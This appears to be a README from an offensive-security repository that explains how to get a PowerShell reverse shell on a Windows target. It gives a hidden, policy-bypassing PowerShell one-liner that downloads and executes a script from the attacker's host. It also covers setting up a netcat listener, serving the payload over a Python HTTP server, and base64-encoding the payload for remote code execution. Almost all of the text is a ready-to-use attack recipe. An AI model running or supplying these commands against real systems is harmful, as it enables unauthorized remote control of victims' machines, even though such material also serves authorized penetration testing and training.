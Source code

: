 ## **PowerShell Reverse Shell Command**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

### **Steps:**

1. **Set Up the Listener on Kali**  
    Run Netcat to listen for incoming connections:
    
    ```bash
    nc -lvnp <port>
    ```

   Replace `<port>` with the desired listening port.
2. **Prepare the Reverse Shell Script** Save the [PowerShell](https://github.com/MGamalCYSEC/ReverseShellCrafter/raw/refs/heads/main/PowerShell/reverse.rar) then Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
3. **Start a Simple HTTP Server on Kali**
   
    ```bash
    python3 -m http.server 80
    ```
    
    This will serve the `reverse.ps1` file over HTTP.
    
4. **Run the PowerShell Command on the Target Machine** Replace `<kali_ip>` in the command with your Kali machine's IP address:
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
    ```
    
   ---
## **Steps to Encode the Reverse Shell**
The [Python code](https://raw.githubusercontent.com/MGamalCYSEC/ReverseShellCrafter/refs/heads/main/PowerShell/encode.py) encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.
Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
We can run it and retrieve the output to use it as an encoded RCE

